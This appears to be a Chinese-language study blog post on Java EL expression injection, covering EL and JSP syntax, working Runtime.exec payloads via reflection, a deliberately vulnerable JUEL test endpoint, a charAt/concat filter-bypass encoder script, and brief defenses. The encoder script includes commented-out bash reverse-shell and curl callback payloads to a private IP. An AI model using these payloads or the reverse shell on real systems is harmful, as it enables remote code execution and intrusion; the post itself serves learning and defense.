





# 前言

前端时间学习了SPEL表达式的注入，最近想来看看关于EL表达式和ONGL表达式的注入漏洞，然后对他们进行一些区分

# EL简介

EL（Expression Language） 是为了使JSP写起来更加简单。表达式语言的灵感来自于 ECMAScript 和 XPath 表达式语言，它提供了在 JSP 中简化表达式的方法，让Jsp的代码更加简化。

EL表达式主要功能如下：

- 获取数据：EL表达式主要用于替换JSP页面中的脚本表达式，以从各种类型的Web域中检索Java对象、获取数据（某个Web域中的对象，访问JavaBean的属性、访问List集合、访问Map集合、访问数组）；
- 执行运算：利用EL表达式可以在JSP页面中执行一些基本的关系运算、逻辑运算和算术运算，以在JSP页面中完成一些简单的逻辑运算，例如`${user==null}`；
- 获取Web开发常用对象：EL表达式定义了一些隐式对象，利用这些隐式对象，Web开发人员可以很轻松获得对Web常用对象的引用，从而获得这些对象中的数据；
- 调用Java方法：EL表达式允许用户开发自定义EL函数，以在JSP页面中通过EL表达式调用Java类的方法

# EL的使用

那EL表达式应该怎么用呢，所有EL表达式的格式都是以`${}`表示。例如，`${ userinfo}`代表获取变量userinfo的值，当EL表达式中的变量不给定范围时，则默认在page范围查找，然后依次在request、session、application范围查找。也可以用范围作为前缀表示属于哪个范围的变量，例如：`${ pageScope. userinfo}`表示访问page范围中的userinfo变量

所以EL的用法：`${EL表达式}`

其实EL表达式是可以和JSP代码做一个等价替换的，而且更加简洁

**JSP 中的语法：**

1. 脚本程序

   ```
   <% 这里是JAVA代码 %>
   ```

2. JSP 声明（`<%!变量或方法%>`）

   声明变量和方法

   ```
   <%! declaration; [ declaration; ]+ ... %>
   
   <%! int i = 0; %> 
   <%! int a, b, c; %> 
   <%! Circle a = new Circle(2.0); %>
   ```

3. JSP 表达式（`<%=变量或表达式>`）

   是对数据的表示，系统将其作为一个值进行计算，表达式的值会转为 string，调用的方法必须要有返回值，不能用 `;` 分号

   ```
   <p>
      今天的日期是: <%= (new java.util.Date()).toLocaleString()%>
   </p>
   <% if (user != null ) {  %>  
          Hello <B><%=user%></B>  
   <% } else {  %>  
          You haven't login!  
   <% } %>
   ```

4. JSP 注释

   ```
   <%-- 注释内容 --%>
   ```

5. JSP 指令

   设置与整个JSP页面相关的属性，开头就能看到

   ```
   | <%@ page … %> | 定义页面的依赖属性，比如脚本语言、error页面、缓存需求等等 |
   | —————— | ——————————————————— |
   | <%@ include … %> | 包含其他文件 |
   | <%@ taglib … %> | 引入标签库的定义，可以是自定义标签 |
   ```

   例如

   ```
   <%@ page language="java" contentType="text/html; charset=UTF-8"
            pageEncoding="UTF-8"%>
   <%@ taglib prefix="s" uri="/struts-tags" %>
   <!DOCTYPE html ....
   ```

## [ ]与.运算符

EL提供了两个运算符（`.和[]`）来存取数据

当要存取的属性名称中包含一些特殊字符，如`.`或`-`等并非字母或数字的符号，就一定要使用`[]`。例如：`${user.My-Name}`应当改为`${user["My-Name"]}`

如果要动态取值时，就可以用`[]`来做，而`.`无法做到动态取值。例如：`${sessionScope.user[data]}`中data 是一个变量，大多数时候基本上都是用的`[]`

这部分的内容其实在原文也写得很清楚了主要是一些jsp和EL语法的东西

https://xz.aliyun.com/t/7692#toc-0

# JSP中禁用EL表达式

## 全局禁用EL表达式

web.xml中进入如下配置：

```
<jsp-config>
    <jsp-property-group>
        <url-pattern>*.jsp</url-pattern>
        <el-ignored>true</el-ignored>
    </jsp-property-group>
</jsp-config>
```

## 单个文件禁用EL表达式

在JSP文件中可以有如下定义：

```
<%@ page isELIgnored="true" %>
```

ture表示禁止

来看看区别

```
${pageContext.request.queryString}
```



```
<%@ page isELIgnored="true" %>
${pageContext.request.queryString}
```



# EL表达式注入漏洞

JSP 有 9 个隐式对象，如下

| request     | **HttpServletRequest** 接口的实例                            |
| ----------- | ------------------------------------------------------------ |
| response    | **HttpServletResponse** 接口的实例                           |
| out         | **JspWriter**类的实例，用于把结果输出至网页上                |
| session     | **HttpSession**类的实例                                      |
| application | **ServletContext**类的实例，与应用上下文有关                 |
| config      | **ServletConfig**类的实例                                    |
| pageContext | **PageContext**类的实例，提供对JSP页面所有对象以及命名空间的访问 |
| page        | 类似于Java类中的this关键字                                   |
| Exception   | **Exception**类的对象，代表发生错误的JSP页面中对应的异常对象 |

但其中只有一个 pageContext 是 EL 隐式对象， 还有4个作用域隐式对象，通过映射访问作用域属性，还有参数访问隐式对象、首部访问隐式对象和初始化参数访问隐式对象，如下

| **类别**   | **标识符**       | **描述**                                         |
| ---------- | ---------------- | ------------------------------------------------ |
| JSP        | pageContext      | PageContext 实例对应于当前页面的处理             |
| 作用域     | pageScope        | 与页面作用域属性的名称和值相关联的 Map 类        |
|            | requestScope     | 与请求作用域属性的名称和值相关联的 Map 类        |
|            | sessionScope     | 与会话作用域属性的名称和值相关联的 Map 类        |
|            | applicationScope | 与应用程序作用域属性的名称和值相关联的 Map 类    |
| 请求参数   | param            | 按名称存储请求参数的主要值的 Map 类              |
|            | paramValues      | 将请求参数的所有值作为 String 数组存储的 Map 类  |
| 请求头     | header           | 按名称存储请求头主要值的 Map 类                  |
|            | headerValues     | 将请求头的所有值作为 String 数组存储的 Map 类    |
| Cookie     | cookie           | 按名称存储请求附带的 cookie 的 Map 类            |
| 初始化参数 | initParam        | 按名称存储 Web 应用程序上下文初始化参数的 Map 类 |

先来看看EL表达式在jsp中的写法，造成了命令执行，通用POC

```
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```



但是呢，这只是针对jsp的，在实际情况下我们几乎没有办法从外部控制jsp的EL表达式，大多数是java程序的也就是框架的服务端的EL表达式来造成注入漏洞的

对于java程序可以控制输入的EL表达式为

```
${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'calc.exe')}

或者直接
${''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('calc',null)}
```

其实也就是我们在jsp中`setAttribute`中的第二个参数，这里就是通过反射来调用了`Runtime.getRuntime().exec`

EL+JS引擎的命令执行

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('open -a Calculator.app')")}
```

# Java代码中的EL注入——JUEL

因为我们平常对于这种注入遇到的还是在java代码中的注入，所以还是来关注java代码方面的内容

首先要导入几个包

```
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-spi</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-api</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-impl</artifactId>
    <version>2.2.7</version>
</dependency>
```

主要使用的方法

```
javax.el.ExpressionFactory.createValueExpression()
javax.el.ValueExpression.getValue()
```

测试代码

```
@RequestMapping("/EL")
@ResponseBody
public String ELfunc(@RequestParam String str)throws Exception{
    ExpressionFactory factory = new ExpressionFactoryImpl();
    SimpleContext context = new SimpleContext();
    ValueExpression e = factory.createValueExpression(context,str, String.class);
    return e.getValue(context).toString();
}
```



# Bypass

一些绕过方法其实和之前在学习SPEL注入的时候的绕过方法差不多

通过下面这段 EL，能够获取字符 `c` ，同理可以获取任意字符串

```
${true.toString().charAt(0).toChars(99)[0].toString()}
```

利用以上原理，通过 charAt 与 toChars 获取字符，在由 toString 转字符串再用 concat 拼接来绕过一些敏感字符的过滤,比如说拼接calc

```
${true.toString().charAt(0).toChars(99)[0].toString().concat(true.toString().charAt(0).toChars(97)[0].toString()).concat(true.toString().charAt(0).toChars(108)[0].toString()).concat(true.toString().charAt(0).toChars(99)[0].toString())}
```



可以用如下exp生产

```
#coding: utf-8

#payload = "bash$IFS-i$IFS>&$IFS/dev/tcp/192.168.169.112/7777$IFS0>&1"
#payload = "bash$IFS-c$IFS'curl 192.168.169.112:7777'"
#exp = '${pageContext.setAttribute("%s","".getClass().forName("%s").getMethod("%s","".getClass()).invoke("".getClass().forName("%s").getMethod("%s").invoke(null),"%s"))}' % ('a','java.lang.Runtime','exec','java.lang.Runtime','getRuntime','open -a Calculator.app')

def encode(payload):
   encode_payload = ""
   for i in range(0, len(payload)):
      if i == 0:
         encode_payload += "true.toString().charAt(0).toChars(%d)[0].toString()" % ord(payload[0])
      else:
         encode_payload += ".concat(true.toString().charAt(0).toChars(%d)[0].toString())" % ord(payload[i])
   return encode_payload

exp = '${"".getClass().forName(%s).getMethod(%s,"".getClass()).invoke("".getClass().forName(%s).getMethod(%s).invoke(null),%s)}' % (encode('java.lang.Runtime'),encode('exec'),encode('java.lang.Runtime'),encode('getRuntime'),encode('calc'))   #修改这里的calc即可

print(exp)
```

利用JS引擎加反射也可以实现一些绕过

# 防御方法

- 尽量不使用外部输入的内容作为EL表达式内容；
- 若使用，则严格过滤EL表达式注入漏洞的payload关键字；

如果是排查Java程序中JUEL相关代码，则搜索如下关键类方法：

```
javax.el.ExpressionFactory.createValueExpression()
javax.el.ValueExpression.getValue()
```


参考链接

http://j0k3r.top/2020/08/13/java-expression/#0x04-EL-%E7%BB%95%E8%BF%87%E4%B8%8E%E9%98%B2%E5%BE%A1

https://xz.aliyun.com/t/7692#toc-20

